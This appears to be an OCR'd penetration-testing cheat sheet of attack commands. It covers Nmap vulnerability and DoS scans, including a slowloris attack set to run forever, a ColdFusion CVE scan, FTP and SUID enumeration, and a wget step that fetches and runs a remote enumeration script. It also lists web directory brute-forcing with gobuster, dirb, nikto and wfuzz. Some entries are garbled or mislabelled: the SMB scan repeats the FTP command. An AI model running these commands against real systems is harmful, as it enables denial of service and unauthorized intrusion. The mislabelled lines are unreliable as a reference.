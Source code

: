 - Nmap Vuln Scanning\*[https://nmap.org/nsedoc/categories/vuln.html](https://nmap.org/nsedoc/categories/vuln.html)\*

- NMap DOS Scanningnmap --script dos -Pn $ip NMap Execute DOS Attack nmap --max-parallelism 750 -Pn --script http-slowloris --script-args http-slowloris.runforever=true

- Scan for coldfusion web vulnerabilitiesnmap -v -p 80 --script=http-vuln-cve2010-2861 $ip

- Anonymous FTP dump with Nmapnmap -v -p 21 --script=ftp-anon.nse $ip-254

- SMB Security mode scan with Nmapnmap -v -p 21 --script=ftp-anon.nse $ip-254

- File Enumeration

    - Find UID 0 files root execution

    - /usr/bin/find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \\\\; 2>/dev/null

    - Get handy linux file system enumeration script (/var/tmp)wget <[https://highon.coffee/downloads/linux-local-enum.sh](https://highon.coffee/downloads/linux-local-enum.sh)> chmod +x ./linux-local-enum.sh ./linux-local-enum.sh

    - Find executable files updated in Augustfind / -executable -type f 2> /dev/null | egrep -v "^/bin|^/var|^/etc|^/usr" | xargs ls -lh | grep Aug

    - Find a specific file on linuxfind /. -name suid\\\*

    - Find all the strings in a filestrings <filename>

    - Determine the type of a filefile <filename>

- HTTP Enumeration

    - Search for folders with gobuster:gobuster -w /usr/share/wordlists/dirb/common.txt -u $ip

    - OWasp DirBuster - Http folder enumeration - can take a dictionary file

    - Dirb - Directory brute force finding using a dictionary filedirb <http://$ip/> wordlist.dict dirb <[http://vm/](http://vm/)>\
Dirb against a proxy

    - dirb [<http://$ip/>](\\<\[http://172.16.0.19/\](http://172.16.0.19/)\\>) -p $ip:3129

    - Niktonikto -h $ip

    - HTTP Enumeration with NMAPnmap --script=http-enum -p80 -n $ip/24

    - Nmap Check the server methodsnmap --script http-methods --script-args http-methods.url-path='/test' $ip

    - Get Options available from web server curl -vX OPTIONS vm/test

    - Uniscan directory finder:uniscan -qweds -u <[http://vm/](http://vm/)>

    - Wfuzz - The web brute forcer\
wfuzz -c -w /usr/share/wfuzz/wordlist/general/megabeast.txt $ip:60080/?FUZZ=test\
wfuzz -c --hw 114 -w /usr/share/wfuzz/wordlist/general/megabeast.txt $ip:60080/?page=FUZZ\
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt "$ip:60080/?page=mailer&mail=FUZZ"\
wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/common.txt --hc 404 $ip/FUZZ\
Recurse level 3\
wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/common.txt -R 3 --sc 200 $ip/FUZZ
